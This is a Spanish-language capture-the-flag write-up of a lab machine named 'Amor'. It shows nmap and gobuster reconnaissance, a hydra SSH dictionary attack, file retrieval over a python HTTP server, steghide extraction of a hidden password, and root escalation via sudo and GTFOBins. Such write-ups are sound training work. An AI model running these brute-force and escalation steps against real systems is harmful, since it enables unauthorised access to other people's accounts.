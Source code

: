 # Amor
## Reconocimiento
En primer lugar comienzo por lanzar un escaneo de puertos para comenzar a estudiar la superficie de ataque y ver que posibles ángulos hay para vulnerar la máquina.
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/17-amor/imgs/1.png]]

El puerto 22 está sirviendo SSH y hay un servidor HTTP funcionando en el 80, a falta de más info voy a echar un ojo a la página

![[Ciberseguridad/Hacking/Writeups/253_septiembre/17-amor/imgs/2.png]]

Se trata de una página corporativa con registros o "noticias" de lo ocurrido en la empresa, hay un par de entradas interesantes como un aviso de contraseña débil (posible ataque diccionario) y otra que está firmada por una tal Carlota, del departamento de ciberseguridad.
El siguiente paso es lanzar un fuzzeo para identificar rutas interesantes o recursos que pueda aprovechar para explotar.
```shell
❯ gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,db,config,xml,py,bak,conf,java,jar,python
```
## Explotación
El fuzzeo no revela nada de interesante, así que se me ocurre probar a atacar SSH mediante diccionario con la información recavada en las entradas de la página.
Pruebo a hacer un ataque diccionario al usuario carlota con `hydra`.
```shell
❯ hydra -L juan.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -s 22 -f ssh://172.17.0.2 -t 64
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/17-amor/imgs/3.png]]

Doy con la clave gracia al ataque diccionario y ya puedo entrar como carlota
## Post explotación
Lo primero es sanitizar la shell
```
export SHELL=bas
export TERM=xterm
export TERM=xterm-256color
source /etc/skel/.bashrc
bash
```

Nada más navegar un poco veo que hay un directorio con una imagen de vacaciones, tras comprobar que la máquina tiene python, levanto un servidor HTTP para servir el archivo y llevarlo a mi máquina
```shell
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.1 - - [17/Sep/2025 14:54:33] "GET /imagen.jpg HTTP/1.1" 200 -
```
Mientras tanto, en mi consola...
```shell
❯ curl -O http://172.17.0.2:8000/imagen.jpg
```
Se trata de una imagen de una pareja, aparentemente en una boda.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/17-amor/imgs/4.png]]

Usando `steghide` para revelar el contenido oculto en la imagen saco un string que está encodeado en base64, así que lo decodifico y obtengo una contraseña con la que pivotar al usuario `oscar`.

 Una vez siendo oscar, al lanzar `sudo -l` y con una búsqueda rápida en GTFObins podemos escalar sin problemas a `root`.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/17-amor/imgs/5.png]]